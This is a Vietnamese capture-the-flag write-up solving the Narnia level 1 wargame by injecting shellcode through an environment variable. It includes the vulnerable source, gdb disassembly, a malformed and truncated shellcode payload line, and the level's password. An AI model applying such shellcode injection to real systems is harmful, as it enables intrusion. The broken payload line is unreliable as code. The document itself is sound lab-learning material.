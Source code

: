 # Challenge Binary exploit 2

* **Category:** PWN
* **Points:** No

## Challenge

Narnia Level 1 → Level 2

## Solution

Source CODE

```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

### Phân tích đề

```c
     int (*ret)();
```

Bên trong main()chúng ta thấy đoạn mã trên khai báo ret()hàm như một nguyên mẫu để sử dụng thêm trong đoạn mã. Bởi vì lập trình C là thủ tục, việc xác định nó trước tiên sẽ giúp chúng ta tránh được lỗi khi biên dịch. Bây giờ chúng ta hãy truy cập vào if xem ra sao.

```c
    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }
```

Ta thấy lệnh if này sẽ lấy biến môi trường, nếu như trống thì sẽ in ra thông báo và thoát ra ngoài.

Ngược lại nếu có dữ liệu nó sẽ gán dữ liệu môi trường vào ret , sau đó thực thi và out

## Vậy ta sẽ giải quyết ra sao

Dùng trình gỡ lỗi gdb

Trước tiên ta cần gán biến môi trường EGG = dữ liệu

Xem có gì xảy ra không

```c
    Trying to execute EGG!
    Segmentation fault
```

Lỗi phân đoạn, nhìn vào đó, chúng ta có một "Lỗi phân đoạn". Điều này có nghĩa là chúng tôi có một tình trạng bất thường khiến chương trình thoát ra.

```
    Dump of assembler code for function main:
   0x0804846b <+0>:     push   ebp
   0x0804846c <+1>:     mov    ebp,esp
   0x0804846e <+3>:     sub    esp,0x4
   0x08048471 <+6>:     push   0x8048540
   0x08048476 <+11>:    call   0x8048320 <getenv@plt>
   0x0804847b <+16>:    add    esp,0x4
   0x0804847e <+19>:    test   eax,eax
   0x08048480 <+21>:    jne    0x8048496 <main+43>
   0x08048482 <+23>:    push   0x8048544
   0x08048487 <+28>:    call   0x8048330 <puts@plt>
   0x0804848c <+33>:    add    esp,0x4
   0x0804848f <+36>:    push   0x1
   0x08048491 <+38>:    call   0x8048340 <exit@plt>
   0x08048496 <+43>:    push   0x8048579
   0x0804849b <+48>:    call   0x8048330 <puts@plt>
   0x080484a0 <+53>:    add    esp,0x4
   0x080484a3 <+56>:    push   0x8048540
   0x080484a8 <+61>:    call   0x8048320 <getenv@plt>
   0x080484ad <+66>:    add    esp,0x4
   0x080484b0 <+69>:    mov    DWORD PTR [ebp-0x4],eax
   0x080484b3 <+72>:    mov    eax,DWORD PTR [ebp-0x4]
   0x080484b6 <+75>:    call   eax
   0x080484b8 <+77>:    mov    eax,0x0
   0x080484bd <+82>:    leave
   0x080484be <+83>:    ret
End of assembler dump.
```

Di chuyển xuống đến địa chỉ bộ nhớ 0x080484a8 thông qua 0x080484b3, đây là nơi mà các cuộc gọi chương trình getenv ( “EGG”) trong chương trình, làm cho không gian trên stack, và chuyển nhượng các dữ liệu trong “EGG” vào EAX thanh ghi. Nhìn vào 0x080484b6 địa chỉ bộ nhớ, chúng ta thấy chương trình đang call eax là hàm ret () đang được thực thi. Điểm dừng đầu tiên của chúng ta để xem điều gì đang xảy ra là đặt điểm ngắt trên lệnh gọi đó và xem những gì có trên ngăn xếp.

Sau khi thực hiện gán biến môi trường

giờ ta đặt break point tại 0x080484b6 và run

xong rồi ta view địa chỉ bộ nhớ chứa dữ liệu biến môi trường

```c
0xffffde9d:     0x5f004443      0x73752f3d      0x69622f72      0x64672f6e
0xffffdead:     0x414c0062      0x653d474e      0x53555f6e      0x4654552e
0xffffdebd:     0x4f00382d      0x5750444c      0x682f3d44      0x2f656d6f
0xffffdecd:     0x6e72616e      0x00316169      0x52455355      0x72616e3d
0xffffdedd:     0x3161696e      0x44575000      0x616e2f3d      0x61696e72
```

Nhìn vào địa chỉ đầu tiên bên trái ( 0xffffdea7), chúng ta thấy giá trị đầu tiên 0x5f006463. Nếu chúng ta chuyển đổi từ hex sang ascii, chúng ta có thể thấy hai byte cuối cùng 64 và 63 chuyển đổi thành d và c tương ứng

Như vậy ta cần làm sao dể ghi đè lên cái biến môi trường

Bài này ta dùng shellcode để điều khiển đoạn mình muốn thực thi

Visit http://shell-storm.org/shellcode/

## Payload

```python
 export EGG=$(python -c 'python "xeb\x11\x5e\x31..."'.filename)
```

```
The flag : nairiepecu
```

Mật khẩu của cấp độ tiếp theo.
